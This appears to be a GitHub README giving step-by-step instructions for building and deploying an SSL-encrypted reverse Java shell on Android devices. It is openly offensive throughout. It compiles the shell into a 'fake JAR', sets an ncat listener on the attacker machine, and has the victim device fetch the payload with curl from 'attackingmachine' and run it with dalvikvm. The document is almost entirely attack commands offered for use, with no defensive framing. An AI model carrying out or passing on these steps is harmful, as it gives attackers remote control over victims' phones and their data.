 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim Android device:
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just use dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
